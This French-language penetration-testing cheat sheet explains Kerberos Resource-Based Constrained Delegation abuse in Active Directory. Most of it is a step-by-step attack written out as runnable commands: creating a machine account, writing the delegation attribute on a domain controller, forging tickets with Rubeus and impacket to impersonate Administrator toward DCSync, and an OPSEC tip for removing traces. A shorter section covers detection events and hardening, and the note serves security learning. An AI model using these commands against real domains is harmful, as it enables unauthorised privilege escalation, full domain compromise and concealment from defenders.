

# Kerberos — RBCD (Resource-Based Constrained Delegation)

> [!info] **En 1 phrase**
> RBCD inverse la délégation : c'est la **cible** qui autorise un compte à l'impersonner (attribut
> `msDS-AllowedToActOnBehalfOfOtherIdentity`) — avec un droit d'écriture, on ajoute **notre propre compte
> machine** et on obtient un ST admin vers la cible.

---

## Concept



> [!info] **Différence avec la délégation contrainte**
> En **Constrained**, l'attribut `msDS-AllowedToDelegateTo` est porté par le **service** qui délègue.
> En **RBCD**, c'est l'attribut `msDS-AllowedToActOnBehalfOfOtherIdentity` porté par la **cible** — donc
> il suffit d'un droit d'écriture sur la cible (souvent `GenericWrite`) pour s'autoriser soi-même,
> **sans contact avec le KDC du compte source**.

---

## Exploitation

> Nécessite : un compte avec **GenericWrite / GenericAll** sur la cible (ou un compte "machine add").

1. **Créer un compte machine** (quota `MachineAccountQuota` = **10** par utilisateur) :

```bash
addcomputer.py 'domain/user:pass' -computer-name swktest -computer-pass 'Weakest123*'
bloodyAD -d domain -u user -p pass --host DC add computer swktest 'Weakest123*'
```

```powershell
New-MachineAccount -MachineAccount swktest -Password (ConvertTo-SecureString 'Weakest123*' -AsPlainText -Force)
```

2. **Autoriser** `swktest$` à s'impersonner la cible :

```bash
bloodyAD -d domain -u user -p pass --host DC add rbcd 'DC01$' 'swktest$'
```

```powershell
Set-ADComputer DC01 -PrincipalsAllowedToDelegateToAccount swktest$
```

3. **Impersonner** un admin vers la cible avec le hash du nouveau compte machine :

```powershell
Rubeus.exe hash /password:'Weakest123*' /user:swktest$ /domain:factory.lan
Rubeus.exe s4u /user:swktest$ /rc4:<hash> /impersonateuser:Administrator /msdsspn:cifs/dc01.domain /ptt /altservice:cifs,http,host,rpcss,wsman,ldap
```

```bash
rbcd.py -f 'swktest$' -dc-ip 10.10.10.10 'domain/user:pass' 'DC01$'
getST.py -spn cifs/DC01.domain 'domain/swktest$:Weakest123*' -impersonate Administrator -dc-ip 10.10.10.10
```

> [!info] **Cas des machines à haute valeur (DCs)**
> RBCD vers un **DC** est possible par défaut si le compte impersonné n'est pas protégé. En revanche,
> certains contextes imposent des **contraintes** : `Protected Users`, "sensitive and cannot be delegated",
> ou le **filtrage des SID** en cross-forest empêchent le S4U. Pour un DC, vise `CIFS` + `HOST` + `LDAP` pour aller jusqu'au **DCSync**.

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **msDS-AllowedToActOnBehalfOfOtherIdentity** | Renseigné sur une machine → suspect si le compte autorisé est un compte machine "fantôme" récent |
| **Événement 4741** | Création de comptes machine (anormale si répétée) |
| **Événement 4769** | ST forwardable dont la source est un compte machine récent |
| **ACL machines** | Surveiller les `GenericWrite` sur les machines (BloodHound : `MATCH (c:Computer) WHERE c.allowedtoact = true RETURN c`) |
| **Réponse** | Réduire le `MachineAccountQuota`, auditer les ACL machines, protéger les comptes sensibles |

---

## Tips & Pièges

> [!tip] **Cross-forest friendly**
> RBCD marche **sans contact avec le KDC du compte source** : c'est la cible qui autorise → parfait en cross-forest si on a un droit d'écriture.

> [!warning] **OPSEC** : **supprime le compte machine** après exploitation (`bloodyAD ... remove rbcd 'DC01$' 'swktest$'` + `delete computer`) — le compte fantôme se voit dans le domaine.

> [!warning] **Piège** : les comptes **Protected Users** / "sensitive and cannot be delegated" bloquent S4U → RBCD échoue sur eux.

---

> [!info] **Sources**
> - [Wagging the Dog: Abusing RBCD — Elad Shamir](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
> - [InternalAllTheThings — Kerberos Delegation](https://github.com/swisskyrepo/InternalAllTheThings/tree/main/docs/active-directory)
> - [The Hacker Recipes — RBCD](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

**Liens :** [[Kerberos Delegation| Hub Délégation]] · [[Kerberos - Constrained Delegation| Constrained]] · [[Kerberos - Unconstrained Delegation| Unconstrained]] · [[Kerberos - Bronze Bit| Bronze Bit]] · [[Kerberos - Le protocole| Kerberos]]
